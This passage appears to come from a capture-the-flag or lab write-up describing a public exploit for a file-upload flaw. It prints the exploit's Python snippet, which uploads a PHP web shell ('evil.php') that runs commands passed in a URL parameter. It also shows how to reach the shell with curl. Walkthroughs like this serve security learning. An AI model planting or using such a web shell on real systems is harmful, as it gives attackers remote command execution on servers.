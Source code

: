 ![](images/plotted-tms5.png)

![](images/plotted-tms6.png)

Looking through the exploit code further shows that it's an upload vulnerability in the drivers list page. It uploads the following payload after asking you to input the url:

```python
url = raw_input("Url: ")
payload_name = "evil.php"
payload_file = "<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>"
```

Running the exploit successfully uploads the shell but doesn't maintain it when you try and enter any commands. You can however manually curl to the URL it lists in the error message after adding the website address in and it works:

`python2 50221.py`
